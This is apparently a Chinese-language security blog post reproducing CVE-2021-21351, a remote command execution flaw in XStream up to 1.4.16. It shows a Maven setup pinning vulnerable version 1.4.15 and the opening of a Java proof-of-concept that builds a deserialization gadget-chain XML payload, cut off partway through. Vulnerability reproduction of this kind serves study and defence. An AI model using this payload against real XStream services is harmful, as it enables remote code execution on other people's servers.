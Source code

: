 ```yaml
---
layout: post
title: XStream<=1.4.16 远程命令执行
noToc: true
date: 2021-06-7 12:30:00 +0800
tags: java安全、漏洞分析
cover: '../assets/xstream.png' 

---
```


### XStream<=1.4.16 远程命令执行



xStream是一个Java对象和XML相互转换的工具.来处理`XML`文件序列化的框架,在将`javaBean`序列化，或将`XML`文件反序列化的时候，不需要其它辅助类和映射文件

复现：

环境搭建

meavn创建Pom：xstream 1.4.15环境

Pom.xml

```
 ....
 <dependencies>
    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>4.11</version>
      <scope>test</scope>
    </dependency>
    <dependency>
      <groupId>com.thoughtworks.xstream</groupId>
      <artifactId>xstream</artifactId>
      <version>1.4.15</version>
    </dependency>
  </dependencies>
  ....
```



Poc:

```java
import com.thoughtworks.xstream.XStream;

public class CVE_2021_21351 {
    public static void main(String[] args) {
        String xml = "<sorted-set> " +
        "  <javax.naming.ldap.Rdn_-RdnEntry> " +
        "    <type>ysomap</type> " +
        "    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'> " +
        "      <m__DTMXRTreeFrag> " +
        "        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'> " +
        "          <m__size>-10086</m__size> " +
        "          <m__mgrDefault> " +
        "            <__useServicesMechanism>false</__useServicesMechanism>" +
        "            <m__incremental>false</m__incremental> " +
        "            <m__source__location>false</m__source__location> " +
        "            <m__dtms> " +
        "              <null/> " +
        "            </m__dtms> " +
        "            <m__defaultHandler/> " +
        "          </m__mgrDefault> " +
```